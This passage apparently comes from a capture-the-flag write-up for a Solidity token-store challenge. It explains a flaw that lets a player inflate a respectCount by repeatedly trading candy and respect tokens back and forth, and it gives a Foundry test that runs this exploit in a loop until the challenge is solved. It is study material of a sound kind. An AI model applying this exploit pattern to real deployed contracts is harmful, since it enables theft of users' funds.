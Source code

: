 
It will exchange candy token to respect token

We have 10 candy token, so we can call `gainRespect()` with 10 to get 10 respect token, and then call `buyCandies()` with 10 to exchange 10 respect token back to 10 candy token, also increasing our respectCount by 10

So we have 10 candy token again, and we can just repeat this until our respectCount is >= 50

### Foundry test :

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Setup.sol";

contract infiniteTest is Test {
    Setup public setupContract;
    crewToken public CREW;
    respectToken public RESPECT;
    candyToken public CANDY;
    fancyStore public STORE;
    localGang public GANG;
    address public attacker = makeAddr("attacker");
    
    function setUp() public {
        setupContract = new Setup();
        CREW = setupContract.CREW();
        RESPECT = setupContract.RESPECT();
        CANDY = setupContract.CANDY();
        STORE = setupContract.STORE();
        GANG = setupContract.GANG();
    }

    function testExploit() public {
        vm.startPrank(attacker);
        
        CREW.mint();
        CREW.approve(address(STORE), 1);
        STORE.verification();
        
        console.log("attacker candy :", CANDY.balanceOf(attacker));
        console.log("attacker respect :", RESPECT.balanceOf(attacker));
        console.log("attacker respectCount :", STORE.respectCount(attacker));
        console.log("");
        
        CANDY.approve(address(GANG), type(uint256).max);
        RESPECT.approve(address(STORE), type(uint256).max);
        
        for(uint256 i; i < 5; ++i){
            GANG.gainRespect(10);
            STORE.buyCandies(10);
        }
                
        console.log("attacker candy :", CANDY.balanceOf(attacker));
        console.log("attacker respect :", RESPECT.balanceOf(attacker));
        console.log("attacker respectCount :", STORE.respectCount(attacker));
        
        assertEq(setupContract.isSolved(), true);
    }
}
```
